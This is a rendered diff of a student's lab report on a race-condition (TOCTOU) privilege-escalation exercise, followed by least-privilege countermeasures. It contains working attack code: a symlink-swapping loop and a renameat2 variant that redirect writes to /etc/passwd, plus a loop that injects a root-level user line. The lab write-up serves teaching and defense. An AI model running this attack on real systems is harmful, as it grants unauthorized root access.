

Before and after one commit to Fabio-A-Sa/Y4S2-SegurancaSistemasInformaticos, a Markdown page: Labs/1 - Race Condition.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Labs/1 - Race Condition.md
+++ b/Labs/1 - Race Condition.md
@@ -77,10 +79,20 @@ race.c, the attack program:
+```bash
+ln-sf /etc/passwd /tmp/XYZ
+```
+
+After executing this command and the script, we were able to successfully write to the `/etc/passwd` file and consequently obtain root privileges.
+
+### Task 2.B: The Real Attack
+
+The attack program consists of successive changes on the symbolic link of our file, redirecting operations from `/tmp/XYZ` to `/etc/passwd` file. Thus, if we get the timming right, in the target code instead of appending content to `/tmp/XYZ`, in fact we'll append the content to `/etc/passwd` resulting in the addition of the line that creates a new user with root privileges.
 
 ```c
 #include <unistd.h>
+
 int main() {
 	while(1) {
-		unlink("/tmp/XYZ");
-		symlink("/etc/passwd","/tmp/XYZ");
+		unlink("/tmp/XYZ");                 // A
+		symlink("/etc/passwd","/tmp/XYZ");  // B
 	}
 	return 0;
 }
@@ -94,20 +106,52 @@ old=$($CHECK_FILE)
 new=$($CHECK_FILE)
 while [ "$old" == "$new" ]          # Check if /etc/passwd is modified
 do
-    echo "your input" | ./vulp      # Run the vulnerable program
+    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp      # Run the vulnerable program
     new=$($CHECK_FILE)
 done
 echo "STOP... The passwd file has been changed"
 ```
 
-We can run both programs in parallel in order to catch the expected result.
+Running this two scripts in parallel, it took several minutes and hundreds of attemps to exploit with success.
 
-## Improved Attack Method
+### Task 2.C: Improved Attack Method
 
-In the previous task most of our attempts didn't work because our attack program, running with no root privilege could not make changes to the root owned /tmp/XYZ file.
+One of the main reasons for the failure in the previous step is that the attack code itself suffers from a race condition. Internally, between `unlink()` (instruction A) and `symlink()` (instruction B) calls, the `fopen()` of the target code can switch the context to the root and make the `/tmp/XYZ` file be owned by root. So, the current user cannot access or modify intentionally the `/tmp/XYZ` file anymore.
 
-Using unlink() and symlink() approach gave us a race condition in our attack program which was exploited by the target program.
+To solve this issue, we used the following code, which ensures atomicity between the `unlink()` and `symlink()` calls:
 
-We can solve this issue by making unlink() and symlink() atomic.
+```c
+#define _GNU_SOURCE
+#include <stdio.h>
+#include <unistd.h>
 
-According to the lab guide now our attack program should look like this:
+int main() {
+    unsigned int flags = RENAME_EXCHANGE;
+    unlink("/tmp/XYZ"); symlink("/dev/null",   "/tmp/XYZ");
+    unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
+    renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
+    return 0;
+}
+```
+
+The attack still worked as expected after some attempts.
+
+## Task 3: Countermeasures
+
+### Task 3.A: Applying the Principle of Least Privilege
+
+In summary, the problem is that since the program is owned by root and the `fopen()` call uses the effective UID, the attacker is able to manipulate files that require root privileges.
+
+To prevent the exploit we can force the effective UID to be the same as the real UID, for that we added the following code:
+
+```c
+uid_t realUID = getuid();
+seteuid(realUID);
+
+...
+```
+
+The exploit stopped working since the effective UID is not **root** anymore and `fopen()` will always fail on the `/etc/passwd` file.
+
+### Task 3.B: Using Ubuntu's Built-in Scheme
+
````
Also changed, not shown: other parts of Labs/1 - Race Condition.md (+58 -26 lines).
